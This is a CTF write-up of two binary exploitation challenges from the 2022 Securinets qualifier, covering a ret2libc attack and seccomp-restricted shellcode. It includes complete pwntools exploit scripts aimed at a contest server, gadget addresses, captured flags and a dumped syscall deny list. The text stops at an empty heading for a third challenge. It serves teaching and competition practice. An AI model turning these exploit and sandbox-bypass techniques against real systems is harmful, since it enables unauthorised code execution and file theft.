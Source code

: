 # National Cyber Security Congress

[Securiday](https://www.facebook.com/Securiday-104756755537130/) qualifiation round, hosted by [Securinets](https://www.facebook.com/Securinets), a 24 hour CTF. Top #10 teams will be able to compete in Securiday CTF.<br/>
I've participated in the CTF as a member of Enthousiast team. We ranked 22 out of 295 teams internationally & 1st team in Tunisia.<br />
I'll be sharing a writeup for the Binary Exploitation challenges.

<br/>
<hr>

* ### Welcm

For this one, we get a binary & a libc, what a time saver.

As a start, we'll check the security of the binary.

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/sec.png"><br/>
</p>
<br />

Now, let's check the binary in Ghidra:
<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/welcm.png"><br/>
</p>
<br />

A basic ret2libc, we check ropper for a `pop rdi` gadget:

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/pop_rdi.png"><br/>
</p>
<br />

Now, let's head to GDB, we check the functions we have ( `info functions` )

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/gdb.png"><br/>
</p>
<br />

No tricks I see, We have everything we'll need.

As a start, we'll need to leak a libc address from the GOT entry. Since we have `puts` available in the binary, we can use it to leak our address. After that, we'll be able to calculate the libc base address. Therefore, we'll be able to find `system` address in memory alongside our `/bin/sh` string.

Summary:

1. Return to `puts`, giving it it's own GOT entry address as a parameter.
2. Find libc base address.
3. Return to `system` giving it `/bin/sh` as parameter.

Considering Ghidra's output, we have 128 bytes for our input + 8 bytes for the RBP, which gives us a total of 136 bytes for the RIP offset. We can start writing our payload.

<details>
  <summary>Show payload</summary>
  
  ```python
  #!/usr/bin/env python3

  from pwn import *

  exe = ELF("./welc_patched")
  libc = ELF("./libc.so.6", checksec=False)

  context.binary = exe
  LOCAL = False


  def conn():
      if LOCAL:
          r = process([exe.path])
      else:
          r = remote("20.216.39.14", 1237)

      return r


  def main():
      r = conn()

      PUTS_PLT = p64(0x0000000000401060)
      PUTS_GOT = p64(0x404018)
      POP_RDI  = p64(0x0000000000401283)
      MAIN     = p64(0x00000000004011db)
      MAIN_RET = p64(0x000000000040121e)

      offset = 136

      # First stage
      # Leak puts address & return to main for stage 2
      payload = b"A"*offset
      payload += POP_RDI
      payload += PUTS_GOT
      payload += PUTS_PLT
      payload += MAIN

      print(payload)

      r.sendline(payload)

      r.recvuntil(b'about you ?\n')
      leak_puts = u64(r.readline()[:-1].ljust(8, b'\x00'))
      base_libc = leak_puts - libc.sym['puts'] # Libc base

      print('Leaked libc           :', hex(leak_puts))
      print('Libc base             :', hex(base_libc))

      SYSTEM = p64(libc.sym['system'] + base_libc)
      BIN    = p64(next(libc.search(b'/bin/sh')) + base_libc)

      # Stage 2, System("/bin/sh")
      payload = b"A"*offset
      payload += MAIN_RET # Alignement
      payload += POP_RDI
      payload += BIN
      payload += SYSTEM

      r.sendline(payload)

      r.interactive()


  if __name__ == "__main__":
      main()
  ```
</details>

And we get our flag: `Securinets{5d91d2e01b854fd457c1d8b592a19b38af6b4a33c6362b7d}`


* ### shellcraft

For this one, we were given a binary file. Considering the name, we'll probably be sending a shell. As a start, we check the binary's security & have a look throught Ghidra.

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/sec2.png"><img src="/2022/Securinets%20CTF%20Quals/imgs/ghidra2.png"><br/>
</p>
<br />

Intersting... It's not just an executable stack, but we got our call ready since the begining. But there is this `sandbox` function, digging more into it gives us the following C code:

```C
  local_18 = seccomp_init(0x7fff0000);
  local_38[0] = 2;
  local_38[1] = 0x38;
  local_38[2] = 0x39;
  local_38[3] = 0x3a;
  local_38[4] = 0x3b;
  local_38[5] = 0x65;
  local_38[6] = 0x142;
  for (local_c = 0; local_c < 7; local_c = local_c + 1) {
    seccomp_rule_add(local_18,0,local_38[(int)local_c],0);
  }
  seccomp_load(local_18);
```

So it's google time! Looking for this `seccomp_rule_add` landed me on this [description](https://man7.org/linux/man-pages/man3/seccomp_rule_add.3.html#DESCRIPTION). As we can see, this is somekind of a syscall filtering. Let's jump into GDB for more debuging... Open binary, setup a breakpoint at main+77, before we start executing our shell.

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/gdb2.png"><br/>
</p>
<br />

We take a shellcode ([Shell storm](http://shell-storm.org/)) & plug it into our binary's input then watch what happens.<br/>
We hit the breakpoint (`0x55555555530d <main+77>:	call   rdx`) & we step into the execution.

So in my case, the shell changed `rax` value to `0x142` which is `stub_execveat` code. If you're unfamiliar with the `syscall` instruction, basically it's a way for the binary to make **system calls** to the kernel to execute a specific function. Each function have it's own code ([SysCall functions list](http://shell-storm.org/shellcode/files/linux-4.7-syscalls-x64.html)), we use this code to identify which function we would like to call. We simply change the `rax` register to the function code we're seeking & set up our parameters for the function call then we use `syscall` instruction to execute it. Back to the topic, after changing the `rax` value & when we are about to make the system call, we get a crash: `Program terminated with signal SIGSYS, Bad system call.`

So as expected, we can see that the `0x142` is included in our `sandbox` code so, as we mentioned, this is a system call filter. 

So we'll need to find an other way to reach our flag without using the blacklisted syscalls, we can use `seccomp-tools` to get a better view for the blacklisted calls:

```
─$ seccomp-tools dump ./shellcraft  
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x07 0x00 0x00000002  if (A == open) goto 0013
 0006: 0x15 0x06 0x00 0x00000038  if (A == clone) goto 0013
 0007: 0x15 0x05 0x00 0x00000039  if (A == fork) goto 0013
 0008: 0x15 0x04 0x00 0x0000003a  if (A == vfork) goto 0013
 0009: 0x15 0x03 0x00 0x0000003b  if (A == execve) goto 0013
 0010: 0x15 0x02 0x00 0x00000065  if (A == ptrace) goto 0013
 0011: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

So, this is the first time I've come across this kind of challenge. After some digging up, I landed on a writeup which included a similar situation. The solution is writing your own assembly! Let's recheck our sys call list ([SysCall functions list](http://shell-storm.org/shellcode/files/linux-4.7-syscalls-x64.html)). We still have `read` & `write` calls authorized, if we dig more, we'll land on `sys_openat`. This function is similar to `open`, except that we can provide a reference directory. Looking up this function ([ref](https://linux.die.net/man/2/openat)), we can either provide an absolute path to our flag file OR we can play around with the `AT_FDCWD` value. Considering the first challenge, the flag path is `/home/ctf/flag.txt`, so if we can do the following call: `openat(NULL, "/home/ctf/flag.txt", O_RDONLY)`, we'll open our flag file & get a file descriptor for it. How can we use this?

We'll have to write something like this:

```C
f = openat(NULL, "/home/ctf/flag.txt", O_RDONLY); // Open our flag file.
read(f, our_adr, 0x50); // This size should be enough to read the flag.
write(1, our_adr); // Write flag to STDOUT.
```

<br/>
If you can read assembly code, you can skip these paragraphs since I'll be mainly explaining that code.

As a start, we'll set our RAX to 0x101, which is `sys_openat` code. Then we'll need to set both RDI & RDX to 0 (equivalent to NULL) & finally we'll need to make RSI point to `/home/ctf/flag.txt` in the stack. If you're unfamiliar with calling convention for 64 bit architecture, RDI is used for passing the first argument, RSI for the second, RDX for the third. Now, how can we get RSI to point to our flag path? Heading back to GDB, we have our shell code address saved in RAX register & it's executing a `call rdx` to execute our shell, therefore, we can use this information before making any sys calls. We can move RAX value to RSI, add our payload's length to RSI & make sure to have our `/home/ctf/flag.txt` at the end of our payload. After that, we'll be able to make our syscall & we'll get the file descriptor in RAX.

After that, we'll need to execute our `read` function. For that, we can use the same address pointed by RSI since we no longer need it & it's a writeable area. We'll also need to move RAX value (file descriptor) to RSI (first argument). And finally, we'll set RAX to 0 for the `read` sys call & RDX to 0x50 for the buffer size. Then execute our syscall.

And the final part of the payload, we'll keep RSI untouched since it points to our flag, we'll change RAX to 1 (`write` sys call) & then set RDI to 1 (STDOUT file descriptor). We can do our sys call now.

After finishing our payload, we'll end up with a 62 bytes assembly code. We head back to the first stage & add 62 to RSI value to make it point at the end of our payload ;)

And the magic happens: `Securinets{56000a2e8205998dd69d74c30d6b1daca2863e66184c088b}`

Payload:

```python
from pwn import *


context.binary = './shellcraft'

# NOPs are not really needed here, we can get rid of them but we'll have to update RSI value
shellcode = b"\x90" * 5 + asm('''

    mov rsi, rdx
    add rsi, 62
    mov rax, 0x101
    xor rdi, rdi
    xor rdx, rdx
    syscall
    
    mov rdi, rax
    mov rax, 0
    mov rdx, 0x50
    syscall
    
    mov rax, 1
    mov rdi, 1
    syscall

        ''')

payload = shellcode+b"/home/ctf/flag.txt\x00"

#p = process('./shellcraft')
p = remote('20.216.39.14', 1236)

print('Shellcode length    :', len(shellcode))
print('Payload             :', payload)

p.sendline(payload)

p.interactive()
```

* ### FTP

